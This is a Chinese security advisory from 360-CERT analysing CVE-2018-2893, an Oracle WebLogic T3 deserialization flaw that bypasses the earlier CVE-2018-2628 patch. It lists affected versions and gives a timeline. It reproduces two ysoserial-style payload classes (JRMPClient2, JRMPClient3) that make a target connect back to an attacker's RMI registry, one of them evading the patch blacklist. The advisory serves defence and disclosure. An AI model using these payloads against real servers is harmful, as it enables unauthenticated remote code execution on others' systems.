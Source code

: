 ```yaml
---
id: 1ca43104ee176a86e6b5888c48b493cc
title: CVE-2018-2893：Oracle WebLogic Server 远程代码执行漏洞分析预警
tags: 
  - 安全资讯
  - 360CERT
---
```


# CVE-2018-2893：Oracle WebLogic Server 远程代码执行漏洞分析预警

0x00 漏洞描述
---------


7月18日，Oracle官方发布了季度补丁更新，其中修复了一个 Oracle WebLogic Server 远程代码执行漏洞CVE-2018-2893，此漏洞是对编号为 CVE-2018-2628 修复的绕过，攻击者同样可以在未身份验证的情况下对WebLogic进行攻击。


360-CERT 对此漏洞进行了相关分析，认为漏洞影响严重；目前相关PoC已经公开，建议相关用户尽快进行评估升级。


0x01 漏洞影响面
----------


影响版本：


* WebLogic 10.3.6.0
* WebLogic 12.1.3.0
* WebLogic 12.2.1.2
* WebLogic 12.2.1.3


0x02 漏洞详情
---------


#### 漏洞概况


WebLogic Server使用T3协议在WebLogic Server和客户端间传输数据和通信，由于WebLogic的T3协议和Web协议使用相同的端口，导致在默认情况下，WebLogic Server T3协议通信和Web端具有相同的访问权限。


易受攻击的WebLogic服务允许未经身份验证的攻击者通过T3网络访问及破坏Oracle WebLogic Server。此漏洞的成功攻击可能导致攻击者接管Oracle WebLogic Server，造成远程代码执行。


#### CVE-2018-2628


InboundMsgAbbrev 使用 resolveProxyClass 来处理 rmi 接口类型，但仅仅只是对`java.rmi.registry.Registry` 进行比较判断，可通过其他rmi接口构造绕过。



```
    protected Class<?> resolveProxyClass(String[] interfaces) throws IOException, ClassNotFoundException {
        String[] arr$ = interfaces;
        int len$ = interfaces.length;

        for(int i$ = 0; i$ < len$; ++i$) {
            String intf = arr$[i$];
            if(intf.equals("java.rmi.registry.Registry")) {
                throw new InvalidObjectException("Unauthorized proxy deserialization");
            }
        }

        return super.resolveProxyClass(interfaces);
    }

```
在公开 PoC 中，通过序列化`RemoteObjectInvocationHandler`，利用`UnicastRef`建立TCP连接获取远端的`RMI registry`，加载后会进行`readObject`解析，通过反序列化漏洞造成远程代码执行。



```
    public class JRMPClient2 extends PayloadRunner implements ObjectPayload {

        public Activator getObject ( final String command ) throws Exception {

            String host;
            int port;
            int sep = command.indexOf(':');
            if ( sep < 0 ) {
                port = new Random().nextInt(65535);
                host = command;
            }
            else {
                host = command.substring(0, sep);
                port = Integer.valueOf(command.substring(sep + 1));
            }
            ObjID id = new ObjID(new Random().nextInt()); // RMI registry
            TCPEndpoint te = new TCPEndpoint(host, port);
            UnicastRef ref = new UnicastRef(new LiveRef(id, te, false));
            RemoteObjectInvocationHandler obj = new RemoteObjectInvocationHandler(ref);
            Activator proxy = (Activator) Proxy.newProxyInstance(JRMPClient2.class.getClassLoader(), new Class[] {
                Activator.class
            }, obj);
            return proxy;
        }


        public static void main ( final String[] args ) throws Exception {
            Thread.currentThread().setContextClassLoader(JRMPClient2.class.getClassLoader());
            PayloadRunner.run(JRMPClient2.class, args);
        }
    }

```
补丁(`p27395085_1036_Generic`) ，在`WeblogicFilterConfig.class` 的黑名单中添加了`sun.rmi.server.UnicastRef`, 进行防御。



```
    private static final String[] DEFAULT_BLACKLIST_CLASSES = new String[]{"org.codehaus.groovy.runtime.ConvertedClosure", "org.codehaus.groovy.runtime.ConversionHandler", "org.codehaus.groovy.runtime.MethodClosure", "org.springframework.transaction.support.AbstractPlatformTransactionManager", "sun.rmi.server.UnicastRef"};

```
#### 补丁绕过


WebLogic 内部类 `weblogic.jms.common.StreamMessageImpl` 可被序列化并且在反序列化时可以调用RMI的类，可以绕过WebLogic 的黑名单限制。



```
    public class JRMPClient3 extends PayloadRunner implements ObjectPayload<Registry> {

        public Object streamMessageImpl(byte[] object) {
            StreamMessageImpl streamMessage = new StreamMessageImpl();
            streamMessage.setDataBuffer(object, object.length);
            return streamMessage;
        }

        public Object getObject (final String command ) throws Exception {
            String host;
            int port;
            int sep = command.indexOf(':');
            if (sep < 0) {
                port = new Random().nextInt(65535);
                host = command;
            }
            else {
                host = command.substring(0, sep);
                port = Integer.valueOf(command.substring(sep + 1));
            }
            ObjID objID = new ObjID(new Random().nextInt()); // RMI registry
            TCPEndpoint tcpEndpoint = new TCPEndpoint(host, port);
            UnicastRef unicastRef = new UnicastRef(new LiveRef(objID, tcpEndpoint, false));
            RemoteObjectInvocationHandler remoteObjectInvocationHandler = new RemoteObjectInvocationHandler(unicastRef);
            Object object = Proxy.newProxyInstance(JRMPClient.class.getClassLoader(), new Class[] { Registry.class }, remoteObjectInvocationHandler);
            return streamMessageImpl(Serializer.serialize(object));
        }


        public static void main ( final String[] args ) throws Exception {
            Thread.currentThread().setContextClassLoader(JRMPClient3.class.getClassLoader());
            PayloadRunner.run(JRMPClient3.class, args);
        }
    }    

```
0x03 时间线
--------


**2018-04-18** Oracle 发布季度安全更新，包含CVE-2018-2628补丁


**2018-04-18** 360-CERT发布 CVE-2018-2628：WebLogic 远程代码执行漏洞分析预警


**2018-07-18** Oracle官方发布了季度补丁更新，包含CVE-2018-2893补丁


**2018-07-18** 360-CERT发布 CVE-2018-2893：WebLogic 远程代码执行漏洞分析预警


0x04 参考链接
---------


1. [Oracle Critical Patch Update Advisory - July 2018](http://www.oracle.com/technetwork/security-advisory/cpujul2018-4258247.html)
2. [知道创宇：Weblogic 反序列化漏洞(CVE-2018-2628)漫谈](http://blog.knownsec.com/2018/04/weblogic-%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9Ecve-2018-2628%E6%BC%AB%E8%B0%88/)
3. [Oracle WebLogic CVE-2018-2628 patch的绕过](https://github.com/tdy218/ysoserial-cve-2018-2628)
4. [【ADLab原创漏洞】WebLogic反序列化漏洞CVE-2018-2893预警](https://mp.weixin.qq.com/s/ca6iox11dV-WL2-37KqTfA)



